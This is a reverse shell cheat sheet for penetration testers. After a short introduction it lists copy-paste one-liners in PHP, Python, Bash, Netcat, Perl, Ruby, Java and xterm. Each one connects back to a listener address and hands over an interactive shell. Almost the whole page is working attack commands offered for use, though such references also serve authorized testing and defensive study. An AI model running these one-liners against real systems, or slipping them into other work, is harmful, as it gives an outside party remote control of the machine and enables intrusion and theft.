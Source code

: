 

### Reverse Shell Cheat Sheet

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.

#### Php :

```
php -r '$sock=fsockopen("192.168.0.2",4444);exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'
```

#### Python :

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Bash :

```
bash -i >& /dev/tcp/192.168.0.1/8080 0>&1
```

#### Netcat :

```
nc -e /bin/sh 192.168.0.2 4444
```

#### Perl :

```
perl -e 'use Socket;$i="192.168.0.2";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};'
```

#### Ruby :

```
ruby -rsocket -e'f=TCPSocket.open("192.168.0.2",4444).to_i;exec sprintf("/bin/sh -i &lt;&amp;%d &gt;&amp;%d 2&gt;&amp;%d",f,f,f)'
```

#### Java :

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5&lt;&gt;/dev/tcp/192.168.0.3/4444;cat &lt;&amp;5 | while read line; do \$line 2&gt;&amp;5 &gt;&amp;5; done"] as String[])
p.waitFor()
```

#### xterm :

```
xterm -display 192.168.0.2:4444
```